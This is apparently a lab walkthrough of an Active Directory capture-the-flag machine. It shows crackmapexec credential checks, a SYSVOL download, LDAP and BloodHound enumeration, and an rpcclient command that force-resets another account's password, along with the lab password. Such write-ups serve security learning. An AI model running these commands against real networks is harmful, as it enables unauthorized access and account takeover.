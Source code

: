 
Will do little more enuemration
```
crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
```
![[Pasted image 20231117131500.png]]

Will do a little tweak in the above command as we have the winrm port open
```
crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
```
![[Pasted image 20231117131602.png]]
It seems that we don't have permission to access it


Will go back to SMB enumeration 
```
smbclient \\\\10.10.10.192\\\SYSVOL -U 'support' --password="#00^BlackKnight"
```
We have access to SYSVOL and got a file
```
prompt off
recurse on
ls
mget *
```

```
UEFS1(0&U
Administrator121200130112036Z0P10Uficate0 

B04d9f970a-1ce2-4b39-87a6-adf40f02e90dMicrosoft Enhanced Cryptographic Provider v1.0
```

There's nothing much we can do using this user and passwd
![[Pasted image 20231117134514.png]]
We have to think out of the box now 

Let's try with ldap 
```
ldapdomaindump ldaps://10.10.10.192 -u 'blackfield\support' -p '#00^BlackKnight'
```

Let's try Bloodhound and got results 
```
bloodhound-python -d blackfield.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c all
```
![[Pasted image 20231117141330.png]]
![[Pasted image 20231117141344.png]]

Let's try with to run bloodhound now
and see what we can get
![[Pasted image 20231117142403.png]]
![[Pasted image 20231117142521.png]]

```
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound
pip3 install -r requirements.txt

python3 PlumHound.py --easy -p password
python3 PlumHound.py -x tasks/default.tasks -p password
```

Will open the index.html file
![[Pasted image 20231117143244.png]]

Finally able to open the index.html file in Firefox
```
firefox index.html
```
![[Pasted image 20231118113021.png]]

Let's see if we get something from this or not
![[Pasted image 20231118113224.png]]

We are getting all the data regarding who is who here 
![[Pasted image 20231118113405.png]]
This might be the password not sure at this point of time but will keep this in our mind 
```
LYDERICLEFEBVRE@BLACKFIELD.LOCAL 	Lydéric aas. Lefebvre 	True 	False 	@lydericlefebvre - VM Creator 
```

After enumerating like 1 hours i got a relationship b/w support and audit2020 with forcechangepassword
![[Pasted image 20231118122124.png]]

![[Pasted image 20231118122257.png]]

We might have to use RPC to change the password of audit2020 let's google and see what could we find.
```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```


![[Pasted image 20231118130530.png]]
```
rpcclient -U "support" 10.10.10.192
#00^BlackKnight

user:[audit2020] rid:[0x44f]

rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 audit2020 23 NewPassword
```


1st let's see how the command works
```
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER

setuserinfo2 audit2020 23 '#00^BlackKnight'
```

We get this error now 
![[Pasted image 20231118131028.png]]

let's try with single quotes let's have a look to the password policy that we had access earlier through the share.

![[Pasted image 20231118131725.png]]
I think we are able to change the password let's try to login using this password

![[Pasted image 20231118132009.png]]
It is clear that we can login  so let's try with smb and evil-win

```
audit2020
#00^BlackKnight
```
![[Pasted image 20231118132242.png]]

![[Pasted image 20231118132509.png]]

Can't get a shell let's enumerate the smb share and see what we can get.
![[Pasted image 20231118132546.png]]

We got a lot of data in the smb share so let's enumerate everything.

![[Pasted image 20231118140455.png]]

![[Pasted image 20231118140648.png]]
